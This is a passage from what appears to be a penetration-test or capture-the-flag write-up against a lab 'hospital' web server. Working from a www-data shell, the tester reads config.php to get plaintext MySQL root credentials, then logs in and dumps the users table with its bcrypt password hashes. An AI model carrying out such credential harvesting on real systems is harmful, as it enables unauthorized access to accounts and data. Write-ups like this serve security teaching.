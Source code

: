 The tester investigated the web root. PHP applications typically have a configuration file close to the web root.
```shell
www-data@webserver:/var/www/html$ cd ..
www-data@webserver:/var/www/html$ ls
config.php  fonts      js          register.php  uploads
css         images     login.php   success.php   vendor
failed.php  index.php  logout.php  upload.php
www-data@webserver:/var/www/html$ cat config.php 
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');
 
/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);
 
// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
www-data@webserver:/var/www/html$ 
```

There are database credentials. The tester accessed the database to look for useful information.

```
www-data@webserver:/var/www/html$ mysql -u root -p hospital
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 12
Server version: 10.11.2-MariaDB-1 Ubuntu 23.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [hospital]> show tables;
+--------------------+
| Tables_in_hospital |
+--------------------+
| users              |
+--------------------+
1 row in set (0.000 sec)

MariaDB [hospital]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
|  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
|  3 | btone    | $2y$10$dJ3vVGlMMQ2n.aMUWmgMDO.XmZpLyNX9Tssz7PDGFu3rcXoaBNRTO | 2024-06-11 18:36:55 |
```